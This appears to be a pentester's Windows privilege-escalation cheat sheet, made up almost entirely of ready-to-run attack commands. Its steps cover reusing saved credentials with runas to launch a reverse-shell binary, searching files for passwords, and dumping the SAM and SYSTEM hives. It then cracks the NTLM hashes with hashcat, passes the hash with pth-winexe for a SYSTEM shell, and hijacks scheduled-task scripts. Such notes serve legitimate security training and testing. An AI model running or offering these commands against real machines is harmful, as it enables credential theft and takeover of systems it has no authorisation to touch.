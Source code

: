 ```
winPeasAny.exe quiet cmd windowscreds
cmdkey /list
runas /savedcred /user:admin C:\reverse.exe
```

### Searching for config files

```
#recursive 
dir /s *pass* = *.config
#current dire
findstr /si password *.xml *.ini *.txt
winPeasAny quiet cmd searchfast filesinfo
```

### SAM
Security Account Manager and System files in
c:\windows\System32\config
but may locked
backups
c:\windows\repair
c:\windows\system32\config\regback

Copy SAM and SYSTEM to kali
Use pwdump.py from https://github.com/Neohapsis/creddump7
```python
python2 pwdump.py /System /SAM
#get hashes - first hash is empty and same for every  user
hashcat -m 1000 --force [hash] /usr/share/worlists/rockyou.txt
```

### Passing the hash
Windows accepts hashes instead of passwords to authenticate number of services
https://github.com/byt3bl33d3r/pth-toolkit

use modified version of win.exe on kali
```
pth-winexe --system -U <LM:NTLM hash>  //<targetIp> cmd.exe
```

## Scheduled tasks
```
schtasks /query /fo LIST /v
```
Modify scripts to call reverse.exe


## Insecure GUI Apps
On some (older) versions of Windows, users could be granted perssion to run certain GUI apps with adminstrator priviliges

if you find a app running as admin 
tasklist /V | findstr <name.exe>
